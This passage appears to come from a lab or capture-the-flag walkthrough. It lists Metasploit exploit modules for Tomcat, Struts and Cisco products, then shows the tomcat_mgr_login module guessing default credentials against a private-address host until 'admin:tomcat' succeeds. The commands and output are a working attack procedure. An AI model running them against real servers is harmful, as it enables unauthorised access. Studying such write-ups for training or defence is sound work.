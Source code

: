 ```
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
   9   exploit/linux/http/cisco_prime_inf_rce                       2018-10-04       excellent  Yes    Cisco Prime Infrastructure Unauthenticated Remote Code Execution
   10  exploit/linux/http/cpi_tararchive_upload                     2019-05-15       excellent  Yes    Cisco Prime Infrastructure Health Monitor TarArchive Directory Traversal Vulnerability
   11  exploit/multi/http/cisco_dcnm_upload_2019                    2019-06-26       excellent  Yes    Cisco Data Center Network Manager Unauthenticated Remote Code Execution
   12  exploit/multi/http/struts2_namespace_ognl                    2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   13  exploit/multi/http/struts_code_exec_classloader              2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   14  exploit/multi/http/struts_dev_mode                           2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   15  exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass
   16  exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   17  exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   18  exploit/multi/http/zenworks_configuration_management_upload  2015-04-07       excellent  Yes    Novell ZENworks Configuration Management Arbitrary File Upload
   19  exploit/windows/http/cayin_xpost_sql_rce                     2020-06-04       excellent  Yes    Cayin xPost wayfinder_seqid SQLi to RCE
   20  exploit/windows/http/tomcat_cgi_cmdlineargs                  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   21  post/multi/gather/tomcat_gather                                               normal     No     Gather Tomcat Credentials
   22  post/windows/gather/enum_tomcat                                               normal     No     Windows Gather Apache Tomcat Enumeration
```

I use module 8 to attempt our login to the Tomcat Application Manager. Simply select the module using command `use 8` and configured it properly. After that, I ran the module using command `exploit`.

```
msf6 > use 8
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 192.168.240.80
RHOST => 192.168.240.80
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 192.168.240.80:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: admin:root (Incorrect)
[+] 192.168.240.80:8080 - Login Successful: admin:tomcat
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 192.168.240.80:8080 - LOGIN FAILED: role1:admin (Incorrect)
```